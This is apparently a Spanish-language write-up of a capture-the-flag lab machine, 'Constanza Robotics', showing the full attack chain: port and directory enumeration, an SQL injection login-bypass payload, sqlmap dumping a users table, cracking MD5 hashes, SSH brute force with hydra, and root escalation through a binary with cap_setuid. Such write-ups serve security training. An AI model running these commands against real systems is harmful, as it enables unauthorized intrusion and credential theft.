



## Table of contents

## Enumeración

La máquina Constanza Robotics tiene la ip **10.0.2.72**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.72

Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.68 ((Debian))
|_http-title: Constanza Robotics \xE2\x80\x94 Rob\xC3\xB3tica industrial de precisi\xC3\xB3n
|_http-server-header: Apache/2.4.68 (Debian)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
```

### Puerto 80 (Web)

Accedemos con el navegador y vemos la página de una empresa de robótica.



Vamos a emplear **ffuf** para enumerar subdirectorios.

```bash
ffuf -c -u "http://10.0.2.72/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -e .php,.html,.js

 :: Method           : GET
 :: URL              : http://10.0.2.72/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Extensions       : .php .html .js 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500

index.html              [Status: 200, Size: 7867, Words: 1648, Lines: 170, Duration: 5ms]
login.php               [Status: 200, Size: 1091, Words: 179, Lines: 30, Duration: 9ms]
assets                  [Status: 301, Size: 347, Words: 21, Lines: 10, Duration: 1ms]
contacto.html           [Status: 200, Size: 4541, Words: 894, Lines: 102, Duration: 23ms]
productos.html          [Status: 200, Size: 6087, Words: 1339, Lines: 141, Duration: 47ms]
soluciones.html         [Status: 200, Size: 6434, Words: 1254, Lines: 135, Duration: 11ms]
```

Tenemos un login.php con su panel de acceso. No disponemos de credenciales pero podemos tratar de inyectar la clásica **SQL Injection** para bypassear el login.

```bash
'or 1=1 -- -
```





## Explotación
### SQL Injection

Confirmamos que el panel es vulnerable, así que vamos a utilizar **sqlmap** para extraer todo el contenido de la base de datos.

```bash
sqlmap --url "http://10.0.2.72/login.php" --form --batch --dump --ignore-code 401

Database: corp
Table: users
[6 entries]
+----+--------+----------------------------------+----------+
| id | role   | password                         | username |
+----+--------+----------------------------------+----------+
| 1  | user   | dea56e47f1c62c30b83b70eb281a6c39 | pperez   |
| 2  | user   | 8afa847f50a716e64932d995c8e7435a | agomez   |
| 3  | user   | f25a2fc72690b780b2a14e140ef6a9e0 | jruiz    |
| 4  | admin  | 0b04f0f2f8a079bf984225c01ba99a0d | csalas   |
| 5  | user   | aaef70f35bbc718528c1e005e1e59d45 | mtorres  |
| 6  | user   | dac8029f94f09117ad4f0dc5f70b69e1 | dnavarro |
+----+--------+----------------------------------+----------+
```

Utilizamos **John The Ripper** junto con la wordlist **rockyou.txt** para romper los hashes de las contraseñas obtenidas.

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

iloveyou            
princess             
barcelona     
```

### Fuerza Bruta SSH

Ya tenemos un listado de usuarios y contraseñas en texto plano, por lo que usamos **hydra** para realizar un ataque de fuerza bruta sobre el servicio **SSH**.

```bash
hydra -L users.txt -P passwords.txt ssh://10.0.2.72

[22][ssh] host: 10.0.2.72   login: pperez   password: barcelona
```

## Acceso SSH
### Pperez

Nos conectamos al servicio **SSH** con las credenciales **pperez**:**barcelona**

```bash
ssh pperez@10.0.2.72

pperez@TheHackersLabs:~$ ls -la
total 28
drwxr-xr-x 3 pperez pperez 4096 jul 31 12:18 .
drwxr-xr-x 4 root   root   4096 jul 31 11:59 ..
lrwxrwxrwx 1 pperez pperez    9 jul 31 12:00 .bash_history -> /dev/null
-rw-r--r-- 1 pperez pperez  220 abr 23  2023 .bash_logout
-rw-r--r-- 1 pperez pperez 3552 jul 31 12:00 .bashrc
drwxr-xr-x 3 pperez pperez 4096 jul 31 12:18 .local
-rw-r--r-- 1 pperez pperez  807 abr 23  2023 .profile
-rw-r--r-- 1 pperez pperez   35 jul 31 11:59 user.txt
```

## Escalada de Privilegios
### Root

Al revisar las capabilities observamos que el binario **pybackup** dentro del directorio **/opt/maint** tiene fijado el capability **cap_setuid** con permisos efectivos y permitidos (**ep**). Además, tenemos permisos de ejecución sobre él.


```bash
pperez@TheHackersLabs:~$ getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/opt/maint/pybackup cap_setuid=ep

pperez@TheHackersLabs:~$ ls -la /opt/maint/
total 6680
drwxr-xr-x 2 root root    4096 jul 31 12:00 .
drwxr-xr-x 3 root root    4096 jul 31 12:00 ..
-rwxr-xr-x 1 root root 6831736 jul 31 12:00 pybackup
```

De esta forma, podemos emplear **pybackup** para cambiar nuestro **UID** a 0 (**root**) y lanzarnos una bash como **root**.

```bash
pperez@TheHackersLabs:~$ /opt/maint/pybackup -c 'import os; os.setuid(0); os.execl("/bin/bash", "bash")'

root@TheHackersLabs:~# whoami
root
root@TheHackersLabs:~# ls -la /root/
total 28
drwx------  4 root root 4096 jul 31 12:00 .
drwxr-xr-x 18 root root 4096 abr 30 20:20 ..
lrwxrwxrwx  1 root root    9 jul 31 12:00 .bash_history -> /dev/null
-rw-r--r--  1 root root  597 jul 31 12:00 .bashrc
drwxr-xr-x  3 root root 4096 oct 16  2024 .local
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   36 jul 31 12:00 root.txt
drwx------  2 root root 4096 oct 16  2024 .ssh
```